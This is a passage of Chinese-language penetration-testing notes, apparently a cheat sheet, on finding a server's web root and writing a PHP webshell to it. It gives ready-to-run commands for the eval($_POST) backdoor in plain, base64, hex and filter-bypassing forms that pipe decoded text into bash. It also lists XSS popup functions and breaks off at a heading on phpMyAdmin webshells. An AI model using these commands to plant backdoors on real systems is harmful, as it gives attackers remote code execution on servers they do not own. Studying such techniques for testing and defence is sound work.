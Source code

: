 2.源码查找法

```
linux:
find / -name "*.*" | xargs grep "PHP installed properly"
find /var/www/ -name "*.php" | xargs grep "doServerTest()"

windows:
findstr /s/i/n /d:D:\sec_tools\ /c:"html" *.html
findstr /s/i/n /d:C:\windows\ /c:"success" *.*
```

3.history等

```
history | grep nginx
history | grep tomcat
history | grep http
```

##### 写入webshell

确认寻找到的路径有写入权限之后，就可以开始写webshell了

1.echo直接写入

```
echo '<?php eval($_POST[1]); ?>' > 1.php
```

2.base64写入

```
echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >2.php
```

3.绕过重定向符

```
echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | bash
echo "ZWNobyAiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTVYwcE95QS9QZz09IiB8IGJhc2U2NCAtZCA+My5waHA=" | base64 -d | sh
```

重定向符>不可用时，我们可以将1或2中的整体命令base64编码，然后解码后通过bash或sh执行，此外还有就是命令执行时ctf中喜欢考察过滤替代

4.hex写入

```
echo 3C3F706870206576616C28245F504F53545B315D293B203F3E|xxd -r -ps > 5.php
```

##### XSS弹窗的函数？

confirm()、prompt()、alert()

[![oTiH4H.png](https://s1.ax1x.com/2021/12/11/oTiH4H.png)](https://imgtu.com/i/oTiH4H)

#### phpmyadmin写入webshell
